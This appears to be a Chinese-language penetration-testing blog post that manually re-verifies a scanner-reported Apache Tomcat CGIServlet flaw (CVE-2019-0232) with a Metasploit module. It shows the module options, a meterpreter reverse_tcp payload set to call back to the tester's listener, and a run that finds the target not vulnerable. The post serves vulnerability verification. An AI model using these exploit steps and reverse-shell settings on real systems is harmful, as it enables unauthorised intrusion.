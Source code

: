 ```yaml
---
title: Sample Page
published: true
---
```


## Apache Tomcat CGIServlet enableCmdLineArguments Vulnerability

针对极光扫描器探测出的tomcat漏洞进行一次 `手工复测` .


### 所用到的工具  
| 序号        | 工具名称          | 测试方式 |
|:-------------|:------------------|:------|
| 1           | MSF | 手动  |

#### 目标网站分析
目标所使用的中间件采用 `Apache Tomcat/7.0.82`

![](/_posts/目标网站的中间件信息.png)

#### 准备

* 工具库查看

> msf5 > search Rank:excellent name:tomcat
> 3  exploit/windows/http/tomcat_cgi_cmdlineargs  2019-04-10       excellent  Yes    Apache Tomcat CGIServlet enableCmdLineArguments Vulnerability

#### 载荷info
```ruby
msf5 exploit(windows/http/tomcat_cgi_cmdlineargs) > info

       Name: Apache Tomcat CGIServlet enableCmdLineArguments Vulnerability
     Module: exploit/windows/http/tomcat_cgi_cmdlineargs
   Platform: Windows
       Arch: x86, x64
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2019-04-10

Provided by:
  Yakov Shafranovich
  sinn3r <sinn3r@metasploit.com>

Module side effects:
 ioc-in-logs
 artifacts-on-disk

Module stability:
 crash-safe

Module reliability:
 repeatable-session

Available targets:
  Id  Name
  --  ----
  0   Apache Tomcat 9.0 or prior for Windows

Check supported:
  Yes

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
  RPORT      8080             yes       The target port (TCP)
  SSL        false            no        Negotiate SSL/TLS for outgoing connections
  SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
  TARGETURI  /                yes       The URI path to CGI script
  VHOST                       no        HTTP server virtual host

Payload information:

Description:
  This module exploits a vulnerability in Apache Tomcat's CGIServlet
  component. When the enableCmdLineArguments setting is set to true, a
  remote user can abuse this to execute system commands, and gain
  remote code execution.

References:
  https://cvedetails.com/cve/CVE-2019-0232/
  https://wwws.nightwatchcybersecurity.com/2019/04/30/remote-code-execution-rce-in-cgi-servlet-apache-tomcat-on-windows-cve-2019-0232/
  https://blog.trendmicro.com/trendlabs-security-intelligence/uncovering-cve-2019-0232-a-remote-code-execution-vulnerability-in-apache-tomcat/

```
#### 分析和利用
> Platform: Windows
> Arch: x86, x64 //符合64位处理器要求
- 填充目标地址 `RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'`  
- 填充目标端口 `RPORT      8080             yes       The target port (TCP)`,这里的端口改用实际的项目端口8181.

---  
设定目标参数和HK机参数,然后开始:

***目标机配置如下:***
```ruby
   Module options (exploit/windows/http/tomcat_cgi_cmdlineargs):
   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.71.18.235     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8181             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The URI path to CGI script
   VHOST                       no        HTTP server virtual host
```

***HK机配置如下:***
```ruby
   Payload options (windows/meterpreter/reverse_tcp):
   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.71.70.102    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
```

---  

#### 验证结果
```ruby
msf5 exploit(windows/http/tomcat_cgi_cmdlineargs) > run
[*] Started reverse TCP handler on 10.71.70.102:4444
[*] Checking if 10.71.18.235 is vulnerable
[-] Exploit aborted due to failure: not-vulnerable: Target is not vulnerable. Set ForceExploit to override.
[*] Exploit completed, but no session was created.
```
exp验证不通过.*说明目标不存在该漏洞*




#### 目标状态
![](/_posts/ndcims验证后网站状态.png)


### 总结

针对漏洞扫描器给出的漏洞分析结果,对于精确度还是存疑的,这时候需要手工进行一次  `POC` 或者 `EXP`验证.如果验证的结果没能获取起初希望看到的效果,说明当下目标漏洞不可利用.
